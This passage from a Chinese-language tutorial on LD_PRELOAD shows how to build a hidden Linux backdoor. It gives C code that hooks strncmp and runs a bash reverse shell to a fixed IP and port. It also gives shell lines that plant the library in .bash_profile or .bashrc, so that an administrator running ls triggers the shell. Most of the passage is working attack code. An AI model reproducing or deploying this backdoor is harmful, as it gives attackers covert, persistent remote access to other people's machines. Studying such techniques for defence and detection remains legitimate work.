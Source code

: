 ![image.png](./LD_PRELOAD深入浅出.assets/2023_06_06_10_11_59_Pi53MpOm.png)

 利用这种思路，我们可以制作一个隐藏的 Linux 后门，比如当管理员执行 ls 命令时会反弹一个 Shell：

```c
// hook_strncmp.c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

void payload() {
    system("bash -c 'bash -i >& /dev/tcp/192.168.93.128/8888 0>&1'");
}

int strncmp(const char *__s1, const char *__s2, size_t __n) {    // 这里函数的定义可以根据报错信息进行确定
    if (getenv("LD_PRELOAD") == NULL) {
        return 0;
    }
    unsetenv("LD_PRELOAD");
    payload();
}
```
然后将其写入`.bash_profile`或者`.bashrc`中
```shell
# .bash_profile start
export LD_PRELOAD="<your_so_absolute path>"
# .bash_profile end
# env start
source ~/.bash_profile
# or
source ~/bashrc
# env end
ls
```
![image.png](./LD_PRELOAD深入浅出.assets/2023_06_06_10_11_59_5oPKBGS1.png)

